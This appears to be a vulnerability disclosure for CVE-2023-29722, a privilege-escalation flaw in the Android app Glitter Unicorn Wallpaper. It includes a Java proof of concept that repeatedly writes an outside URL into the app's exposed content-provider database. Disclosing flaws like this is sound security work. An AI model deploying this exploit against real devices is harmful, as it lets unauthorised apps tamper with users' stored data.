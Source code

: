 ## Escalation of Privileges exists in Glitter Unicorn Wallpaper（CVE-2023-29722）

Vendor：bungaakpstudio007

Affected product：Glitter Unicorn Wallpaper(com.bungaakp007.glitterunicornwallpapers07112020) 

Version：8.0 7.0

Download link：https://apkpure.com/cn/glitter-unicorn-wallpaper-4k/com.bungaakp007.glitterunicornwallpapers07112020/download

Description of the vulnerability for use in the CVE：The Glitter Unicorn Wallpaper app for Android 7.0 thru 8.0 allows unauthorized apps to actively request permission to modify data in the database that records information about a user's personal preferences and will be loaded into memory to be read and used when the app is opened. An attacker could tamper with this data to cause an escalation of privilege attack.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    while (true) {
        Uri uri = Uri.parse("content://com.bungaakp007.glitterunicornwallpapers07112020/wall/6");
        ContentValues contentValues = new ContentValues();
        contentValues.put("nama","https://nimg.ws.126.net/?url=http%3A%2F%2Fdingyue.ws.126.net%2F2022%2F1107%2F4cc9e200j00rkyl4o0010c000uk00kdg.jpg&thumbnail=660x2147483647&quality=80&type=jpg");
        contentResolver.update(uri,contentValues,null,null);
    }
}
```



